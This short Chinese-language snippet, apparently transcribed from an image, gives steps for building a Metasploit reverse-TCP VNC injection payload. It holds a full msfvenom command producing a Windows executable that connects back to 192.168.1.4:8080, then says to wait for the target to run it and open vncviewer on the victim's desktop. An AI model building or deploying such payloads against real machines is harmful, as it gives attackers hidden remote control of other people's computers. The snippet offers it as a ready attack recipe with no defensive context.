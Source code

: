 选择windows/x64/vncinject/reverse_tcp
设置AUTOVNC为false，run之后，再开启vncviewer

当目标主机能通外网时  
msfvenom –p windows/x64/vncinject/reverse_tcp  
AUTOVNC=false  
LHOST=192.168.1.4  
LPORT=8080  
–f exe  
–o 192.168.1.4-8080.exe  
run  
目标主机执行payload后，监听器需成功接收反连，然后打开vncviewer，访问127.0.0.1:5900
